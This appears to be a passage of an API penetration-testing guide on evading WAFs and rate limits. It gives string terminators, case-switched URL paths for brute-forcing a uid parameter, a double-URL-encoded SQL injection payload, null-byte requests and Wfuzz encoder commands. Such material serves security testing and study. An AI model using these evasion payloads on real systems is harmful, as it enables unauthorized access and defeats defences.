

WAFs, for example, can be triggered by a wide variety of things, like:
- Too many requests for resources that do not exist.
- Too many requests within a certain amount of time
- Common attack attempts, like SQL injection and XSS attacks
- Abnormal behavior, like tests for authorization vulnerabilities

The following measures can be effective at evading or bypassing these restrictions.

## String Terminators
Here is a list of potential string terminators you can use:

%00

0x00

//

;

%

!

?

[]

%5B%5D

%09

%0a

%0b

%0c

%0e

## Case Switching

Let’s say you were targeting a social media site by attempting an IDOR attack against a uid parameter in the following POST request:  

POST /api/myprofile 

[…] 

{uid=§0001§} 

 An API may leverage rate-limiting to only allow 100 requests per minute. Based on the length of the uid value, you know that to brute force it you’ll need to send 10,000 requests to exhaust all possibilities. To bypass rate-limiting or other WAF controls you may be able to simply alter the URL path by switching upper- and lower-case letters in the path: 

POST /api/myProfile 

POST /api/MyProfile 

POST /aPi/MypRoFiLe

In the case where rate-limiting is renewed, you could use the BurpSuite Pitchfork attack to pair a certain number of attacks to a certain number of brute-force attempts.

For example:

POST /api/myprofile paired with uid 001 - 100

POST /api/Myprofile paired with uid 101 - 200

POST /api/mYprofile paired with uid 201 - 300

## Encoding Payloads

URL Encoded Payload: %27%20%4f%52%20%31%3d%31%3b

API Provider URL Decoder: ' OR 1=1;

WAF Rules detect a fairly obvious SQL Injection attack and block the payload.

Double URL Encoded Payload: %25%32%37%25%32%30%25%34%66%25%35%32%25%32%30%25%33%31%25%33%64%25%33%31%25%33%62

API Provider URL Decoder: %27%20%4f%52%20%31%3d%31%3b

## Payload Processing with Burp Suite

To test your payload processing, launch an attack and review the request payloads.

POST /api/v3/user?id=%00%75%6e%64%65%66%69%6e%65%64%00

POST /api/v3/user?id=%00%75%6e%64%65%66%00

POST /api/v3/user?id=%00%28%6e%75%6c%6c%29%00

## Evasion with Wfuzz
$ wfuzz -e encoders

- A sample of the available Wfuzz encoders

|   |   |   |
|---|---|---|
|Category|Name|Summary|
|hashes|base64|Encodes the given string using base64|
|url|urlencode|Replaces special characters in strings using the %xx escape. Letters, digits, and the characters '_.-' are never quoted.|
|default|random_upper|Replaces random characters in strings with capitals letters|
|hashes|md5|Applies a MD5 hash to the given string|
|default|none|Returns all characters without changes|
|default|hexlify|Converts every byte of data to its corresponding two-digit hex representation|
Next, to use an encoder, add a comma to the payload and specify its name:

`$ wfuzz -z file,wordlist/api/common.txt,**base64** [http://hapihacker.com/FUZZ](http://hapihacker.com/FUZZ)`

For example, if you were to have a single payload “TEST” with the encoding applied like this:  
`$ wfuzz -z list,TEST,**base64-md5-none**`

Note that if you had three payloads, using a hyphen for three encoders would send nine total requests like this:

`$ wfuzz -z list,a-b-c,**base64-md5-none** -u [http://hapihacker.com/api/v2/FUZZ](http://hapihacker.com/api/v2/FUZZ)`

